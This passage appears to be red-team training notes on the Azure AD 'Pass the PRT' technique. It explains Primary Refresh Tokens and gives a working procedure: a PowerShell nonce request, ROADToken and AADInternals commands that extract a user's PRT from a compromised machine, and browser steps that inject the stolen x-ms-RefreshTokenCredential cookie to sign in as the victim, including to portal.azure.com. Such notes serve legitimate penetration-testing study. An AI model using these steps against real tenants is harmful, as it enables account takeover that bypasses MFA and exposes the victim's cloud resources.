 #### Use psremoting to access the machine

## Pass the PRT
- PRT is a special refresh token used for single sign-on (SSO)!
  – It can be used to obtain access and refresh tokens to any application.
  – Issued to a user for a specific device
  – Valid for 90 days and is continuously renewed
  – CloudAP SSP requests and caches PRT on a device
  – If PRT is MFA-based (Windows Hello or Windows Account manager), then the claim is transferred to app tokens to prevent MFA challenge for every application.
  - If we compromise an Azure AD joined (or Hybrid joined) machine, it is possible to extract PRT and other keys for a user.
  - For Azure AD Registered machine, PRT is issued if a user has added a secondary work account to the device.
  - Before a fix in August 2021, PRT always had MFA claims. After fixes in August 2021, PRT can currently be extracted only for the current Azure AD user (not as a local admin or any other user).
  - If we have access to a PRT, it is possible to request access tokens for any application.
  - Chrome uses BrowserCore.exe to use PRT and request PRT cookie for SSO experience.
  - This PRT cookie - x-ms-RefreshTokenCredential – can be used in a browser to access any application as the user whose PRT we have.

#### Request a nonce
```
$TenantId = "<TENANT>"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI" = $URL
"Method" = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

#### Extract PRT
- Should be run on session of the targer Azure AD User
- https://github.com/dirkjanm/ROADtools
- https://aadinternals.com/aadinternals/
```
C:\AzAD\Tools\ROADToken.exe <nonce>
Get-AADIntUserPRTToken
````

#### Copy the value from above command and use it with a web browser
- Open the Browser in Incognito mode
- Go to https://login.microsoftonline.com/login.srf
- Press F12 (Chrome dev tools) -> Application -> Cookies
- Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for https://login.microsoftonline.com and set its value to that retrieved from AADInternals
- Mark HTTPOnly and Secure for the cookie
- Visit https://login.microsoftonline.com/login.srf again and we will get access as the user!
- Can now also access portal.azure.com
